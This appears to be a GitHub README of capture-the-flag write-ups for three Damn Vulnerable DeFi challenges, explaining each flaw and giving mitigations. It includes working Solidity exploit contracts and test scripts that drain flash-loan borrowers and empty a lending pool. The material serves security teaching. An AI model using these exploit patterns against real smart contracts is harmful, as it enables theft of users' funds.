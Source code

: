 # DamnVulnerableDefi-Solutions
My writeups for the Damn Vulnerable Defi challenges

## Challenge #1 - Unstoppable

There’s a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.

To pass the challenge, make the vault stop offering flash loans.

You start with 10 DVT tokens in balance.

### `UnstoppableVault.sol`: Transferring asset tokens directly to the vault results in the contract denial of service

Function `flashLoan` compares it's asset tokens balance with a result of converting all available shares into asset tokens 
```
    function totalAssets() public view override returns (uint256) {
        assembly { // better safe than sorry
            if eq(sload(0), 2) {
                mstore(0x00, 0xed3ba6a6)
                revert(0x1c, 0x04)
            }
        }
        return asset.balanceOf(address(this));
    }
```

```
uint256 balanceBefore = totalAssets();
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```
with the goal of making sure that at the moment of function execution there are no discrepancies in an accounting

This strict check gives us an opportunity to disrupt contract functionality with a direct transfer of the asset tokens to the vault which leads to an increase of it's balance and the discrepancy that we discussed above.

### Proof of concept

Paste the following block of code in the `unstoppable.challenge.js`

```
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        await token.connect(player).transfer(vault.address, 100);
    });

```

### Mitigation

We need to make sure that we use only asset tokens that we receive from the user's deposits in an accounting, thus we need to modify the contract as follows

1. Create new storage variable `uint256 _assetBalance`
2. Modify it inside deposit function
```
    function _deposit(address caller, address receiver, uint256 assets, uint256 shares) internal virtual {
        SafeERC20.safeTransferFrom(_asset, caller, address(this), assets);
        _assetBalance += assets;
        _mint(receiver, shares);

        emit Deposit(caller, receiver, assets, shares);
    }
```
3. Rewrite `totalAssets`
```
    function totalAssets() public view override returns (uint256) {
        assembly { // better safe than sorry
            if eq(sload(0), 2) {
                mstore(0x00, 0xed3ba6a6)
                revert(0x1c, 0x04)
            }
        }
        return _assetBalance;
    }
```

## Challenge #2 - Naive receiver

There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

### `NaiveReceiverLenderPool.sol`: Anyone can call `flashLoan` function causing unsuspecting borrowers to lose their tokens

`flashLoan` is a permitionless function that exetutes a flash loan while simultaneously taking 1 ETH fee from the borrower. Hacker can call this function with any contract address, that implemented `onFlashLoan` function, and a zero `amount` loan causing the borrower to pay the fees and draining it's balance.

### Proof of concept

Here is the simple contract which can drain any borrower's balance

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";

contract NaiveExploit {
    IERC3156FlashLender public immutable pool;
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    constructor (IERC3156FlashLender _pool) {
        pool = _pool;
    }

    function attack(IERC3156FlashBorrower target) public {
          while(address(target).balance > 0) {
              pool.flashLoan(target, ETH, 0, "0x");
          }
    }
}
```

Deploy and call `attack` function inside `naive-receiver.challenge.js`

```
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const Exploit = await ethers.getContractFactory('NaiveExploit');
        exploit = await Exploit.deploy(pool.address);

        await exploit.connect(player).attack(receiver.address);
    });
```

### Mitigation

Allow only borrower contract to call `flashLoan` function

```
 function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
    if (msg.sender != address(receiver) revert NotABorrower();
    ...
```

## Challenge #3 - Truster
More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

### `TrusterLenderPool.sol`: `flashLoan` function allows executing any malicious code via target.functionCall()

Hackers can execute any code with pool addres as a `msg.sender`, we can call `flashLoan` function with DVT token address as a `target` and encoded `approve` function payload as a `data`, thus we can approve all DVT in pool's posession to be spended by anyone.

### Proof of concept

Attaker's contract

```
// SPDX-License-Identifier: MIT

import "../truster/TrusterLenderPool.sol";

pragma solidity ^0.8.0;

contract TrusterExploit {
    TrusterLenderPool public immutable pool;
    ERC20 public immutable token;
    bytes private evilData = abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint256).max); 

    constructor (TrusterLenderPool _pool, ERC20 _token) {
        pool = _pool;
        token = _token;
    }

    function attack() public {
        uint256 bal = token.balanceOf(address(pool));
        pool.flashLoan(0, address(this), address(token), evilData);
        token.transferFrom(address(pool), msg.sender, bal); 
    }
}
```

Paste the following inside a `truster.challenge.js`

```
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const Exploit = await ethers.getContractFactory('TrusterExploit');
        exploit = await Exploit.deploy(pool.address, token.address);

        await exploit.connect(player).attack();
    });
```

This will trnasfer all DVT from pool to the player address

### Mitigation

Allow only trusted payload to be sent by the pool contract, remove `data` parameter from the `flashLoan` function 

```
 function flashLoan(uint256 amount, address borrower, address target)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));
        bytes memory trustedPayload = abi.encodeWithSignature("onFlashLoan(address, address, uint256)", borrower, address(token), amount);

        token.transfer(borrower, amount);
        target.functionCall(trustedPayload);
        ...
```
